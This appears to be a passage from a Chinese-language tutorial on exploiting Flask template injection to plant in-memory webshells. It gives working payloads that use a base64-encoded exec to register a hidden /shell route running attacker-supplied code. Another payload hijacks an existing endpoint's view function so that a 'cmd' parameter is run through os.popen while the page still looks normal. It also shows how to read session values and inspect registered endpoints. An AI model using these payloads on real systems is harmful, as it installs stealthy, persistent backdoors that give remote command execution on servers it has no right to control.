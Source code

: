 ```python
    return os.popen('whoami').read()
resp = cmd_run()
```
注入内存马可以这样来：
```python
{{ url_for.__globals__['__builtins__']['exec'](
"
exec(__import__('base64').b64decode('CmRlZiBteV9mdW5jKCk6CiAgICBpbXBvcnQgYmFzZTY0CiAgICBwYXJtYSA9IHsncmVzcCc6IE5vbmV9CiAgICBpZiAnY21kJyBpbiByZXF1ZXN0LnZhbHVlczoKICAgICAgICBwX2NvZGUgPSBiYXNlNjQuYjY0ZGVjb2RlKHJlcXVlc3QudmFsdWVzWydjbWQnXSkKICAgICAgICBleGVjKHBfY29kZSwgcGFybWEpCiAgICByZXR1cm4gcGFybWFbJ3Jlc3AnXQo='))
app.view_functions['shell'] = my_func;
app._got_first_request=False;
app.add_url_rule('/shell', 'shell', my_func, methods=['POST','GET']);
app._got_first_request=True;
", 
{'request':url_for.__globals__['request'], 'app':url_for.__globals__['current_app']})}}
```
执行 Payload 就将 py 代码 base64 编码后传入即可
![image.png](https://cdn.nlark.com/yuque/0/2024/png/33593053/1718246956310-3c7acc0f-3a44-494c-b5ed-fec2024e0b21.png#averageHue=%2376b6db&clientId=ua0d5e07c-5e84-4&from=paste&height=217&id=u31b9103f&originHeight=271&originWidth=1872&originalType=binary&ratio=1.25&rotation=0&showTitle=false&size=74928&status=done&style=none&taskId=u21f92589-15c7-4af9-8f62-1da038a5570&title=&width=1497.6)

获取 session
```python
{{ url_for.__globals__.session.get('test') }}

Payload = """
def shell_func():
    return gl['session'].get('test')
resp = shell_func()
"""
```
## 修改视图函数 @app.endpoint
这个装饰器是用来建立视图函数和路由之间的关系，底层操作的是数据`view_functions`，用法如下，这种用法
```python
app.add_url_rule("/", endpoint="index")

@app.endpoint("index")
def index():
    ...
```
在一个请求开始进行处理的时候，会在`flask.app.Flask.dispatch_request`函数中从`view_functions`中找到对应的视图函数来进行处理，我们可以通过`url_for.__globals__['current_app'].__dict__['url_map']`来查看当前应用上下文中的`endpoint`和路由的对应关系，也就知道了有哪些`endpoint`，如果没有设置`endpoint`，那么默认就是其视图函数名，可以通过`url_for.__globals__['current_app'].__dict__['view_functions']`查看视图函数，这样可以区别出哪些是`endpoint`，哪些是视图函数。
![image.png](https://cdn.nlark.com/yuque/0/2024/png/33593053/1717758459970-b0bf9875-c6ac-46f6-b684-d04da849d689.png#averageHue=%231f2024&clientId=u15af632c-5e6d-4&from=paste&height=537&id=u9ffd8d70&originHeight=671&originWidth=1204&originalType=binary&ratio=1.25&rotation=0&showTitle=false&size=125506&status=done&style=none&taskId=ue92d95f8-c031-427e-81ea-100567da6bd&title=&width=963.2)
比如这里有一个`hello_endpoint`对应路由`/hello`，对应的视图函数是`hello_world`
![image.png](https://cdn.nlark.com/yuque/0/2024/png/33593053/1717760828584-850bdbfa-7d86-455e-909c-2c18389db888.png#averageHue=%237eb4d3&clientId=u15af632c-5e6d-4&from=paste&height=240&id=udf00c597&originHeight=300&originWidth=1877&originalType=binary&ratio=1.25&rotation=0&showTitle=false&size=91018&status=done&style=none&taskId=ube4c9bf9-b0d1-4fc2-8658-e63f0b8bccb&title=&width=1501.6)
![image.png](https://cdn.nlark.com/yuque/0/2024/png/33593053/1717761068508-e573e93d-69c1-4a3c-99d8-afbaa281db5e.png#averageHue=%23ebeff3&clientId=u15af632c-5e6d-4&from=paste&height=290&id=u974f2a99&originHeight=362&originWidth=1866&originalType=binary&ratio=1.25&rotation=0&showTitle=false&size=97119&status=done&style=none&taskId=u51182c7a-be73-4b30-82cb-43d07f06a49&title=&width=1492.8)
![image.png](https://cdn.nlark.com/yuque/0/2024/png/33593053/1717758865958-daf4532d-194a-418c-a6e6-e6170157aab3.png#averageHue=%23fbfbb2&clientId=u15af632c-5e6d-4&from=paste&height=113&id=uff4b0511&originHeight=141&originWidth=671&originalType=binary&ratio=1.25&rotation=0&showTitle=false&size=6048&status=done&style=none&taskId=ue9180aa3-b3a1-4245-a0ec-684a00287ad&title=&width=536.8)
由于直接修改的话会导致这个路由都变成内存马，因为这里是直接调用了视图函数处理返回，而不是在视图函数前后处理。我们可以通过如下 Payload 修改其视图函数，实现`/hello`上的内存马的同时不影响原来的页面
```python
{{ url_for.__globals__['__builtins__']['exec'](
"
app.backup_func=app.view_functions['hello_endpoint'];
app.view_functions['hello_endpoint']=lambda : __import__('os').popen(request.args.get('cmd')).read() if 'cmd' in request.args.keys() is not None else app.backup_func()
", 
{'request':url_for.__globals__['request'], 'app':url_for.__globals__['current_app']}) }}

# 直接
```